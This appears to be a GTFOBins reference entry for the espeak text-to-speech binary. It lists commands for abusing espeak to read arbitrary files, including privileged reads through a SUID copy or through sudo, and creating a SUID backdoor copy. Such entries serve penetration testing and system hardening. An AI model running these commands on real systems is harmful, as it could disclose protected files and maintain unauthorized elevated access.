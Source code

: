 # GTFOBin: espeak

The file content appears in the middle of other textual information, thus it might not be suitable to read arbitray binary files.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
espeak -qXf "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which espeak) .

LFILE=file_to_read
./espeak -qXf "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo espeak -qXf "$LFILE"
```